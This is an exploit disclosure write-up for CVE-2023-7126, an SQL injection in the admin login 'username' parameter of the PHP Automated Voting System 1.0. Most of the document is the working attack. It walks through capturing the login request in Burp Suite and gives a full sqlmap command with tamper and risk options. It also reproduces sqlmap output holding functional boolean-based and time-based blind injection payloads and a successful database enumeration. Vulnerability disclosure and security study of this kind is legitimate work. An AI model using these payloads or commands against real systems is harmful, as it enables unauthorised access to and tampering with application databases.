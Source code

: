 # CVE-2023-7126_Automated_Voting_System-SQL_Injection-1
+ **Exploit Title:** CVE-2023-7126_Automated_Voting_System-SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/automated-voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/AUTOMATED_VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7126

## References: 
+ **CVE-2023-7126:** https://vuldb.com/?id.249129
+ https://www.cve.org/CVERecord?id=CVE-2023-7126
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7126
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7126

## Description:
Automated Voting System 1.0 allows SQL Injection via parameter 'username' in "/automated%20voting/admin/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/automated%20voting/admin/"
+ Fill the username and password then click 'Login' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit.
+ In sqlmap, use 'username' parameter to dump the database. 
```
sqlmap -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART username ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

-1676' OR 6176=6176-- hmdo
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="username"

adminn' AND (SELECT 7935 FROM (SELECT(SLEEP(5)))MYPj)-- oinA
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="password"

pass
-----------------------------192279164335952871372031982036
Content-Disposition: form-data; name="login"


-----------------------------192279164335952871372031982036--
---
[19:21:50] [INFO] testing MySQL
got a 302 redirect to 'http://localhost/automated%20voting/admin/candidate.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[19:21:50] [INFO] confirming MySQL
[19:21:52] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[19:21:52] [INFO] fetching current database
[19:21:52] [INFO] resumed: voting
current database: 'voting'
```

+ current database: `voting`
![01](https://github.com/h4md153v63n/CVEs/assets/5091265/654f8856-e854-4018-8208-8ca07971bb50)
